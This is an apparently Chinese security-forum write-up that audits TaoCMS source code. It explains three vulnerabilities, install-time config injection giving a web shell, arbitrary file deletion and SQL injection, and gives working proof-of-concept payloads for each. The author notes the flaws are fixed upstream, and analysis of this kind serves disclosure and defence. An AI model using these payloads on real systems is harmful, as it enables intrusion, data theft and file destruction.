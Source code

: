 ### install/getshell

直接看`/install.php#24`

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ce77079d4e8c1917347e1a91c6ce430340095621.png)

判断是否有POST传入db\_name，如果有的话就会赋值给$db\_name参数，如果没有就会赋值默认的值，跟进  
`/config.php#16`

```php
define('DB_NAME',   'data/blog.db');
```

回到install.php，接着需要往下找到将POST传入的值重新覆盖传回到config.php的代码，在文件中接着搜索，在234行

```php
$configs=file_get_contents('config.php');
$_POST['tb']&&$configs=str_replace('define(\'TB\',  \''.TB.'\');','define(\'TB\',   \''.$_POST['tb'].'\');',$configs);
$_POST['db']&&$configs=str_replace('define(\'DB\',  \''.DB.'\');','define(\'DB\',   \''.$_POST['db'].'\');',$configs);
$_POST['db_name']&&$configs=str_replace('define(\'DB_NAME\',    \''.DB_NAME.'\');','define(\'DB_NAME\', \''.$_POST['db_name'].'\');',$configs);
file_put_contents('config.php',$configs);
file_put_contents('data/install.lock','');
```

可以看到这里先调用file\_get\_contents读取了配置文件当中的内容，接着调用了str\_replace将默认值替换成了POST中传入的参数值，这里其实三个参数都能够写入shell文件，这里对`db_name`进行写入shell;除此之外这里还会在data文件夹下生成install.lock锁文件，作为是否安装过的判断条件  
很容易就得到了poc，只需要进行闭合符号，再插入shell就可以了

```php
db_name=|127.0.0.1:3306|root|123456|taocms|');assert($_REQUEST['cmd']);//
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-84c64f548fa0e773634a8c60fffdb80076102c68.png)

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1c09d520ca03095a8bee3ac9a0f39b66fe491dab.png)

### Delete any file

先给出poc

```php
?action=file&ctrl=del&path=filepath
```

`admin/admin.php#17`  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-32a77d2934cadce58f7a8f5f9e0c95d6b03a9f2e.png)

先会调用`Base`类中的`catauth`方法对`$action`参数进行判断，之后会判断是否存在相应的类，如果存在的话就实例化该类并赋值给`$model`，并且会判断`$ctrl`方法是否存在于`$action`类中，存在的话就会调用类中无参方法

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2d38697f76db1bd8c71895aa067c9c797a6938c2.png)  
`include/Model/Base.php#119`,通过调试发现`$_SESSION[TB.'admin_level']=admin`，所以返回值为true恒成立，所以上面的代码逻辑会接着往下走  
根据poc，继续来跟代码  
传入的`$action=file`,定位到类文件`include/Model/File.php`

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4dab37e82445a5879f7f548245288cd4d5cab299.png)

根据File类的构造方法，以及前面传入的参数，`$id`是可控的，但是没有赋值默认为0，`$table`即是`$action=file`,接着这里会对指定文件的真实路径进行拼接，这里的`SYS_ROOT`就是整个项目的绝对磁盘路径，这里是`D:/phpStudy/WWW/`  
往下看到调用的del方法

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f02659122f5c5fc1705bb4436a96113eb32905e4.png)

这里会对指定绝对路径要删除的文件的全选进行判断，并且如果是文件夹的话会遍历文件夹并判断文件夹是否为空，之后就会直接进行删除的操作，加上目录穿越就可以进行任意文件删除了。任意文件删除复现不好截图，就不放了。

### SQL Injection

poc

```php
?name=-1%"+union+select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()%23&cat=0&status=&action=cms&ctrl=lists&submit=%E6%9F%A5%E8%AF%A2
```

根据poc来进行分析  
`include\Model\Cms.php#112`

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-35e0c18d0e233d8834cb2c938f2787c58f179bcc.png)

`name,cat,status`三个参数都由GET传入，都可控，直接来看调用的DB类中的getlist方法  
`include/Db/Mysql.php#60`

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-74eecfb729d1aadbf05002ab551baed7caf41902.png)

调用的方法除了前三个参数是由前面调用时传入的参数覆盖的，其他两个参数为默认值，调试输出了最后的sql查询语句

```php
select count(*) from cms_cms where 1=1  and name like "%-1%" union select group_concat(table_name) from information_schema.tables where table_schema=database()#%" ORDER BY  id DESC  limit 20
```

这里sql执行完之后会调用`Base`类中的`magic2word`方法，对结果是否为数组进行判断，如果是数组就会存入新的数组并且返回赋值给`$datas`数组，打印该数组可以发现注入的语句已经成功执行并返回了结果

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-34eb91df50570bef016799bb38cbb54c03696536.png)

之后就可以修改语句进行爆字段值等操作了，由于这里本身是不会有返回结果的，所以需要进行盲注脚本碰撞或者用sqlmap才能够进行利用,还有别处sql注入就不一一分析了。  
备注：上述漏洞均已在最新版修复，在github相应的issue下cms作者已作出回复。  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3af38923fe54c6ac669d1f808e9b2ea2caf3ca44.png)